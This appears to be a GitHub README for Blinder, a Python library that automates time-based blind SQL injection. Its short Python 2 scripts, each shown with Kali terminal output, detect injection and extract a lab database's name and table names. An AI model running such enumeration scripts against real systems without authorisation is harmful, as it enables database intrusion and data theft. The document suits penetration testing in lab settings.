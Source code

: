 # Blinder

Blidner is a small python library to automate time-based blind SQL injection by using a pre defined queries as a functions to automate a rapid PoC development.

# Installation

You can install Blinder using the following command:

`pip install blinder`

Or by downloading the source and importing it manually to your project.

# Usage

To use blinder you need to import `Blinder` module then start using the main functions of Blinder.

You can use Blinder "with the current version" to do the following:

* Check for time based injection.
* Get database name.
* Get tables names.

**You can check for injection in a URL using the following code:**

```
#!/usr/bin/python

import Blinder

blind = Blinder.blinder(
    "http://sqli-lab/sql_injection/index.php?search=3",
    sleep=1
 )

print blind.check_injection()

```

The execution result will be:

```
root@kali:~/Desktop# python check.py 
True
root@kali:~/Desktop# 
```
**You can Get database name using the following code:**

```
#!/usr/bin/python

import Blinder

blind = Blinder.blinder(
    "http://sqli-lab/sql_injection/index.php?search=3",
    sleep=1
 )

print "Database name is : %s " % blind.get_database()

```

And the results will be:

```
root@kali:~/Desktop# python get-database.py 
Database name is : db1 
root@kali:~/Desktop# 
```

**To get tables names you can use the following code:**

```
#!/usr/bin/python

import Blinder

blind = Blinder.blinder(
    "http://sqli-lab/sql_injection/index.php?search=3",
    sleep=1
 )

tables = blind.get_tables()

for table in tables:
    print table

```
And the results will be:

```
root@kali:~/Desktop# python get-tables.py 
blogs
notes
root@kali:~/Desktop# 
```
